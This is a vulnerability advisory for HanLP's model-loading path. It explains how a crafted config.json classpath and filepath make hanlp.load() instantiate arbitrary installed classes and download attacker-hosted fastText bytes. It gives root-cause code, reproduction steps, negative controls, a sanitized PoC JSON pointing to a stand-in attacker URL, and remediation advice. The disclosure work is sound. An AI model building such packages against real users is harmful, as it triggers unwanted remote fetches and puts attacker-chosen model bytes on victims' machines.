










# HanLP 2.1.0-beta.64 (commit ddb1299) — Insecure Deserialization (CWE-502) in Model Config Loading (`hanlp.load`)

## Summary

hankcs HanLP 2.1.0-beta.64 (git commit `ddb1299bddff079e447af52ec12549c50636bfa8`) is affected by an insecure deserialization flaw in the model-package loading path (`hanlp.load()`). The `classpath` string stored inside a model's `config.json` / pipeline JSON is resolved with `importlib.import_module()` and the resulting class is instantiated with attacker-controlled constructor arguments, without any allowlist or origin check. A crafted model package therefore makes the victim instantiate an attacker-chosen installed class; choosing `hanlp.layers.embeddings.fast_text.FastTextEmbedding` turns the `filepath` config key into an attacker-controlled remote URL that the victim machine downloads (`GET`) and feeds to `fasttext.load_model()`.

The impact is bounded by the loading protocol: the top-level class must expose a `load()` method and every nested component must be constructible from its config, so plainly unsuitable targets such as `subprocess.Popen` are rejected and arbitrary code execution was **not** achieved. The demonstrated impact is (a) reflection over all installed HanLP-protocol classes with attacker-chosen arguments, and (b) an attacker-controlled external resource fetch with automatic caching of attacker bytes inside the victim's HanLP home directory. Loading is a user action (`hanlp.load()` on a downloaded model package), so user interaction is required.

## Affected Product

| Field | Value |
|---|---|
| Vendor | hankcs (He Han) |
| Product | HanLP |
| Affected versions | git commit `ddb1299bddff079e447af52ec12549c50636bfa8` (`hanlp/version.py` = `2.1.0-beta.64`, PyPI-normalized `2.1.0b64`); master state as of 2025-05-15 |
| Component | `hanlp/utils/component_util.py` (`load_from_meta_file` / `load_from_meta`), `hanlp/components/pipeline.py` (`Pipeline.from_config`, `Pipe.from_config`), `plugins/hanlp_common/hanlp_common/configurable.py` (`Configurable.from_config`), `plugins/hanlp_common/hanlp_common/reflection.py` (`str_to_type`), `hanlp/layers/embeddings/fast_text.py` (`FastTextEmbedding`, `FastTextTransform`), `hanlp/utils/io_util.py` (`get_resource`) |
| Platform | OS independent (verified on Ubuntu 24.04, Python 3.12) |
| Vulnerability type | CWE-502: Insecure Deserialization (secondary: CWE-918 Server-Side Request Forgery — victim-initiated request to attacker URL) |

## Root Cause

**Location 1:** `plugins/hanlp_common/hanlp_common/configurable.py:9-32` (`Configurable.from_config`) and `plugins/hanlp_common/hanlp_common/reflection.py:38-44` (`str_to_type`)

The classpath field of a model config is used as a type identifier. `str_to_type()` performs a bare `importlib.import_module()` + `getattr()` with no allowlist:

```python
def str_to_type(classpath):
    module_name, class_name = classpath.rsplit(".", 1)
    cls = getattr(importlib.import_module(module_name), class_name)
    return cls
```

`Configurable.from_config()` then instantiates that class with the remaining config keys as keyword arguments (this is the code quoted in the report of the finding):

```python
cls = config.get('classpath', None)
assert cls, f'{config} doesn\'t contain classpath field'
cls = str_to_type(cls)
deserialized_config = dict(config)
...
if cls.from_config == Configurable.from_config:
    deserialized_config.pop('classpath')
    return cls(**deserialized_config)
```

**Location 2:** `hanlp/utils/component_util.py:78,99-108` (`load_from_meta_file`) and `hanlp/components/pipeline.py:72-76,176-179` (`Pipe.from_config`, `Pipeline.from_config`)

`hanlp.load()` reads the model's JSON, resolves the top-level classpath and calls `obj.load(...)`. For a `Pipeline` model, every `pipes[]` entry is recursively resolved the same way (`load_from_meta()` → `str_to_type()` → `cls.from_config(meta)`), so the whole object tree of a model package is reconstructed from attacker-writable strings.

**Location 3:** `hanlp/layers/embeddings/fast_text.py:91-101` (`FastTextEmbedding.__init__` → `FastTextTransform.__init__`) and `hanlp/utils/io_util.py:310-346` (`get_resource`)

`FastTextEmbedding` accepts a `filepath` config key and passes it to `FastTextTransform`, which calls `get_resource(filepath)`. `get_resource()` treats any `http:`/`https:` string as a download URL and fetches it to the victim's HanLP home (`~/.hanlp/thirdparty/<host>[:<port>]/...`) before `fasttext.load_model()` parses the downloaded bytes:

```python
elif path.startswith('http:') or path.startswith('https:'):
    url = path
    ...
    path = download(url=path, save_path=realpath, verbose=verbose)
```

Because the URL, the target file name and the parsed content are all taken from the model package, a victim performing a routine `hanlp.load()` on an untrusted package contacts an attacker-controlled server and deserializes attacker-controlled model bytes.

## Proof of Concept

### Prerequisites

- A Python environment with `hanlp` at the affected commit plus `fasttext` (the `fasttext` extra) and `torch` installed.
- The victim runs `hanlp.load()` on a model package obtained from an untrusted source (model mirror, chat attachment, shared folder). This is the normal usage pattern of the library.

### Steps to Reproduce

1. Attacker-side: train a tiny genuine fastText model and generate a malicious package `en/` whose `en.json` uses the exact shape `Pipeline.save()` writes, with the pipe component classpath set to `hanlp.layers.embeddings.fast_text.FastTextEmbedding` and `filepath` pointing to the attacker URL `http://<attacker>:18080/hanlp-idx11-canary.bin`. The package contains no importable Python payload; a `evil.py` file is added only as a negative control (it must never be imported).



The JSON above proves the only attack payload is the two strings `classpath` and `filepath` — no Python file is referenced by the model.

2. Attacker-side: host the file on the attacker server (lab: `python3 -m http.server 18080 --bind 127.0.0.1` in the package host directory).



3. Victim-side: `python victim_load.py` — the victim script simply calls `hanlp.load('en/en.json')`. The victim resolves the classpath, instantiates `FastTextEmbedding` with the attacker URL, downloads the file from the "attacker" server, and builds a pipeline around the attacker-supplied embedding.



The output shows the full trigger chain: `Loading fasttext model http://127.0.0.1:18080/hanlp-idx11-canary.bin`, the download progress to `~/.hanlp/thirdparty/127.0.0.1:18080/hanlp-idx11-canary.bin`, then `Pipeline loaded from: en/en.json` and the pipeline `[None->FastTextEmbedding->None]` built from the attacker-controlled resource.

4. Attacker-side: the canary server log records the victim's fetch — proof of the attacker-controlled external resource fetch (two GETs because HanLP's downloader issues two requests for one resource).


5. The attacker bytes are cached inside the victim's HanLP home directory:



### Negative Controls

- NC-A (reflection is bounded by the loading protocol): same package shape, but `classpath` = `subprocess.Popen` with constructor arguments that would run a shell command. The load is rejected — the class never executes. On Python 3.12 without `hanlp[full]`, HanLP's generic error handler replaces the underlying protocol error with a `hanlp.version.NotCompatible` complaint about `perin-parser` (an unrelated cosmetic issue of the error path); the security-relevant fact is that the target is never instantiated or executed.





- NC-B (no remote fetch without an attacker URL): same package with `filepath` = local missing path `/nonexistent/fasttext_embed.bin`. The load fails with `ValueError: ... cannot be opened for loading!` and the canary server log stays unchanged.





- NC-C (no package code import): the package ships `evil.py` which writes `imported_marker.txt` when imported. After the full malicious load of step 3, the marker file does not exist — the JSON loading path never imports or executes package files.





### Expected vs Actual

- Expected: a model package should only instantiate the component classes its publisher legitimately shipped, and resources should only be fetched from the model's declared origin.
- Actual: any `classpath` string in the package is instantiated against every installed class that matches the loading protocol, and embedding `filepath` values trigger downloads from any URL, with the attacker controlling file name, bytes and timing.

### Sanitized PoC input

```text
en/en.json (main candidate)
{
  "classpath": "hanlp.components.pipeline.Pipeline",
  "pipes": [{
    "classpath": "hanlp.components.pipeline.Pipe",
    "component": {
      "classpath": "hanlp.layers.embeddings.fast_text.FastTextEmbedding",
      "filepath": "http://127.0.0.1:18080/hanlp-idx11-canary.bin",
      "src": "token"
    }
  }]
}
(lab canary URL 127.0.0.1:18080 stands in for <attacker-host>)
```

## Impact

- Confidentiality: Low — the victim machine contacts the attacker host, leaking presence, IP, egress timing and library versions; attacker bytes are parsed in-process.
- Integrity: Low — the model/embedding actually used by the application is fully attacker-chosen; attacker-controlled bytes are cached under `~/.hanlp/thirdparty/`.
- Availability: Low — attacker-controlled binary input reaches the fastText C++ parser (`fasttext.load_model`); malformed input fails the load, and deeper memory-safety issues in that parser would be reachable but were not explored.
- Scope: limited installed-class reflection (loading-protocol constrained: top-level class must expose `load()`, components must be constructible from config) plus attacker-controlled external resource fetch. Arbitrary command/code execution was not demonstrated: `subprocess.Popen` and similar targets are rejected by the protocol (NC-A), and the package's own Python files are never imported (NC-C).

## Remediation

- Pin/allowlist classpaths: resolve `classpath` only against the component classes the model package actually shipped (e.g. a manifest signed by the publisher), or restrict to a static allowlist of HanLP component classes; never `importlib` a package-controlled string unboundedly.
- Treat model packages as untrusted input: document that `hanlp.load()` on an untrusted package is equivalent to running untrusted code with protocol-level limits, and add an explicit opt-in (e.g. `trust_remote=True`-style flag) for packages not covered by a signed index.
- Validate resource URLs: embedding/component file paths should be restricted to the model's declared origin or to local files inside the package directory; block arbitrary remote hosts by default.
- Add checksums to the model index and verify them before instantiation.

## References

- Source repository: https://github.com/hankcs/HanLP
- Affected commit: https://github.com/hankcs/HanLP/commit/ddb1299bddff079e447af52ec12549c50636bfa8
- Upstream report: [pending publication]
- CWE-502: https://cwe.mitre.org/data/definitions/502.html
- CWE-918: https://cwe.mitre.org/data/definitions/918.html
